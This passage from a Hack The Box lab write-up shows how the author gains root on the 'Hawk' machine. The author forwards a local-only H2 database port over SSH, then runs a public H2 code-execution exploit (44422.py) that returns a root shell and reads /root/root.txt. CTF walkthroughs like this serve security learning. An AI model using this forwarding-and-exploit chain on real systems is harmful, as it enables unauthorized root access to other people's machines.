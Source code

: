 Now, way back in my earlier enumeration, I found a web page for a database called H2 that did not allow remote connections. I might be able to connect with Daniel's local account now. So now I want my ssh to forward to that database port on 8082 with daniels credentials. I can port forward with the following command:
```bash
ssh -L 127.0.0.1:9002:127.0.0.1:8082 daniel@10.129.95.193
```
With this, I should be able to access the H2 database page by going to 127.0.0.1:9002 in a web browser:
![Pasted image 20230816110051](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/4121ecdd-2747-4b14-91b9-e845e6faf736)

Woo!
Now I need to see if I can't find credentials for this thing using Daniel. I should try and search for files relating to H2...
```
daniel@hawk:~$ ps -ef | grep h2
root       773   772  0 12:53 ?        00:00:03 /usr/bin/java -jar /opt/h2/bin/h
daniel   11197 11178  0 15:03 pts/0    00:00:00 grep h2
daniel@hawk:~$ 
```
Looks like it's in /opt/h2/
permission denied... boo. 


-------------------

After some playing around, I was able to find a local script exploit that does the trick here!
![Pasted image 20230816112934](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/e0f5730b-cfa6-4da8-b3d2-02bde92f7b88)

script 44422.py is for arbitrary code execution using an alias. I'll just need to get it on the box...

Once I do that, I just need to craft my statement. The -d flag is confusing and I'm not entirely sure what it means, but I can see that it correlates to something I'm seeing on the h2 page. I can do something similar to that I think. 

```
daniel@hawk:/tmp$ python3 44422.py 
usage: 44422.py [-h] -H 127.0.0.1:4336 [-d jdbc:h2~/test] [-u username] [-p password]
44422.py: error: the following arguments are required: -H/--host

daniel@hawk:/tmp$ python3 44422.py -H 127.0.0.1:8082 -d jdbc:h2:~/htb-hawk
cmdline@ id
uid=0(root) gid=0(root) groups=0(root)
cmdline@ cat /root/root.txt
fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXd
```
Hawk has been PWNED!
